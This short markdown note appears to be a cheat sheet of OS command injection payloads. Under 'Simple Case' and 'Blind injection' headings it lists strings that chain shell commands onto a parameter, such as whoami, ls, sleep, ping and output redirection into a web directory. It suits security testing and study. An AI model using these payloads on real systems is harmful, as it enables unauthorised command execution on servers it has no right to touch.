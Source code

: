 ## Simple Case
```sh
& whoami #

;ls

;ls;
```
## Blind injection
```sh
& sleep 10 #

& whoami > /var/www/images/output.txt # >> Output redirection

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
